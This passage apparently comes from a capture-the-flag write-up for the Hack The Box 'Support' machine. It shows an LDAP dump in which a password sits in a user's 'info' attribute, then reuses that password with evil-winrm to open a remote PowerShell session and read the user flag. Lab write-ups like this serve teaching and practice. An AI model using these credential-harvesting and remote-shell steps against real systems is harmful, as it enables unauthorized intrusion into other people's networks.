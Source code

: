```bash
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 2
codePage: 0
countryCode: 0
badPasswordTime: 134036453089233475
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

The `info` tag has suspicious data that looks like a password. Let's **reuse** these credentials and grab the `user.txt` flag
```bash
┌──(kali@kali)-[~/support.htb]
└─$ sync-ad evil-winrm -u 'support' -p 'Ironside47pleasure40Watchful' -i support.htb     

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> cd ..
*Evil-WinRM* PS C:\Users\support> cd Desktop
*Evil-WinRM* PS C:\Users\support> cat user.txt
```
